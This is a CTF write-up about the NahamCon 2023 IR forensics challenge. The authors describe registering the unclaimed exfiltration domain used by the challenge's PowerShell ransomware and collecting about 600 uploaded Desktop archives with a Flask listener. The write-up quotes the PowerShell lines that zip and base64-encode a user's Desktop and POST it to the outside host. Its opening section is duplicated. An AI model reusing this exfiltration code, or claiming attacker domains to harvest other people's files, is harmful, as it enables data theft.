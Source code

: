 # How we turned a challenge against the players and creators

## About the Challenge

During the process of deobfuscating the powershell payload from [the IR challenge](2023/nahamcon/Forensics/IR/IR.md), we noticed that the domain where all the encrypted files were being sent to was not yet claimed. Here's an explanation of how we received hundreds of decryptable files the CTF players sent us by running the encrypter.

## How we did it

---

After we deobfuscated the first stage of the payload, we stumbled across this powershell code:
![](PowershellCode.png)

At the second-last line, you can see the following piece of powershell code:

````ps
Invoke-Webrequest -Method Post -Uri "https://www.thepowershellhacker.com/exfiltration" -Body $body
```# How we hacked hundreds of CTF players

## About the Challenge

During the process of deobfuscating the powershell payload from [the IR challenge](2023/nahamcon/Forensics/IR/IR.md), we noticed that the domain where all the encrypted files were being sent to was not yet claimed. Here's an explanation of how we received hundreds of decryptable files the CTF players sent us by running the encrypter.

## How we did it

---

After we deobfuscated the first stage of the payload, we stumbled across this powershell code:
![](PowershellCode.png)

At the second-last line, you can see the following piece of powershell code:

```ps
Invoke-Webrequest -Method Post -Uri "https://www.thepowershellhacker.com/exfiltration" -Body $body
````

This line sends a variable called `body` to `www.thepowershellhacker.com/exfiltration` in a post request.

The variable `body` is specified a bit earlier in the code:

```ps
$zipFileBytes = Get-Content -Path ("C:\Users\"+$user+"\Downloads\Desktop.zip") -Raw -Encoding Byte
$zipFileData = [Convert]::ToBase64String($zipFileBytes)
$body = ConvertTo-Json -InputObject @{file=$zipFileData}
```

Here we can clearly see that a zip file from the desktop (containg every file from the desktop) gets encoded in Base64, and then transferred into a Json object.

---

Out of curiosity, we quickly checked if the domain `thepowershellhacker.com` was claimed, expecting it to be.

However, to our surprise, it wasn't!
![A dutch website checking to check if the domain is available for sale.](claimed.png) _A dutch website checking to check if the domain is available for sale._

## What now?

---

After we claiming the domain, we went ahead and setted up a python web server, which would listen for incoming requests:

```python
from flask import Flask, request, jsonify
import time

app = Flask(__name__)

@app.route('/exfiltration', methods=['POST'])
def result():

    fileName = str(time.time()) + '.base64.zip'
    f = open(fileName, 'w+')

    receivedFile = request.get_json(force=True)['file']
    f.write(receivedFile)

    f.close()
    return "", 200

if __name__ == '__main__':
    app.run(host="127.0.0.1", port=2001)
```

This python webserver would receive the base64 encoded payload from the body, pull it out of the json object, and put it in a file.

## What did we receive?

---

After the Nahamcon CTF ended, we went ahead and checked how many files we received:
![](results.png)

We reived a total of 600 files, that's insane!
Sadly, after mass decrypting all the files we received, we came to the conclusion that there are _only_ 33 files that are not from this ctf.
Here's a list of all the files that were not part of the CTF challenge:

```
Ableton Live 11 Suite.lnk
asdf
ASDF
asdf.ps1
Autoruns.lnk
available_packages.txt
Bitdefender.lnk
config.xml
desktop.ini
failed_packages.txt
fakenet_logs.lnk
file.txt
flare-vm-4
Ghost Toolbox.lnk
HitmanPro.Alert.lnk
imac.py
kanker.txt
New Text Document.txt
nice.ps1
NPE.lnk
ProcessExplorer.lnk
PSDecode.ps1
QQ.lnk
readme.txt
TCPView.lnk
Telegram.lnk
test.txt
tes.txt
Tools.lnk
UpdateHealthTools.001.etl
UpdateHealthTools.001.evtx
x32dbg.lnk
x64dbg.lnk
```

A lot of these files are ending in `.lnk`, which means they are windows file shortcuts. They're not interesting.

After manually going through all the files, we concluded that nothing really of interest was captured. This means that almost everyone was smart enough to not run this on their own desktop environment, but in the VM supplied by the Nahamcon CTF.

We'd also like to note that we didn't receive anything that could be identified back to a specific users, nor did we receive any sensitive files. Next to that, we'll destroy all the files and logs we've received.

## Was this a waste of time?

No, this absolutely wasn't a waste of our time and resources. First of all, the CTF challenge in itself was already pretty fun to solve. Next to that, we quite enjoyed the process of making all of our quick and dirty tools. From the python web server, to the mass decoders. We're also delighted to see that almost everyone ran the "ransomware" in the Virtual Machine supplied by the CTF organisers, on not on their own machine.

We absolutely loved the process we went through by making this.

---

> _We want to thank Nahamsec and John Hammond for making and hosting this Capture the Flag tournament. And we'd also like to thank `@awesome10billion#1164` for making the forensics challenge. We quite enjoyed it._

###### Written by Crunch
